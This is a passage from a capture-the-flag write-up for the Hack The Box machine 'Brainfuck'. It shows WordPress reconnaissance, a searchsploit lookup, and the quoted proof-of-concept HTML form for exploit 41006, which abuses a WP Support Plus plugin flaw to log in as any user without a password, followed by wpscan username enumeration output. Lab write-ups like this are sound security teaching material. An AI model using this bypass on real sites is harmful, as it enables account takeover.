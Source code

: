 ![1652f9e7c67c0d1ece156bb84040b371.png](/images/htb/brainfuck/948add39570044c4bc9b6a400cccc2e1.png)


![e23b343b9a7b80d83c42971f36ab80fc.png](/images/htb/brainfuck/d122d2de84bb44d1b329dbe4ef9dce4e.png)

www.brainfuck.htb gave us hint that this web app is a Wordpress web app. Since this is HTTPS or 443, we can take a good look at certificate and inspect more. 

![6a611376a1a9773247d874d313dfeaff.png](/images/htb/brainfuck/a745fb5f0682409c9ad285fef421688c.png)



## Initial Foothold / Initial Access

### Searchsploit exploit
Since the vulnerabilities that appears the most on wpscan result is `WP Support Plus Responsive Ticket System`, lets search this on searchsploit using this command. `searchsploit WP Support Plus Responsive Ticket System`

![59edff135895c012783b45219b6c05e1.png](/images/htb/brainfuck/34b9c05a8e984f1da4296f2ae79e7bcc.png)

Then, get this on local directory using `searchsploit -m 41006`. This will copy or mirror of 41006 exploit on local directory for our usage.



```php
1. Description

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

http://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

2. Proof of Concept

<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```
The exploit for this is basically where we just need username of a valid login without password. Lets enumerate the username for login in this wordpress site. 


### Username enumeration

```
[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
